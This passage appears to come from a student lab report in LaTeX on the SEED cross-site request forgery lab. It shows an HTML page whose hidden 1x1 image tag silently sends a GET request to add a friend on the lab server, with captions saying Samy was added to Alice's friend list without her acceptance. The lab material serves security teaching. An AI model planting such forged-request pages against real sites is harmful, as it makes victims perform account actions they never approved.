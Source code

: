 \subsection{Task 2: CSRF Attack using GET Request}\label{sec:attack_get_req}
%
\begin{lstlisting}[language=html, caption= Content of the webpage forging an
    HTTP GET request for adding a friend., label={lst:html_add_friend}]
<html>
<body>
<h1>This page forges an HTTP GET request</h1>
<img src="http://www.seed-server.com/action/friends/add?friend=59" alt="image" width="1" height="1" />
</body>
</html>
\end{lstlisting}

\begin{figure}
    \centering
    \includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/Add_friend_forging_HTTP_GET.png}
    \caption{Samy is now in the friend list of Alice without her acceptance.}
    \label{fig:friend_list}
\end{figure}

\begin{figure}
    \centering
    \includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/Samy_profile.png}
    \caption{Samy profile page.}
    \label{fig:samy_profile}
\end{figure}

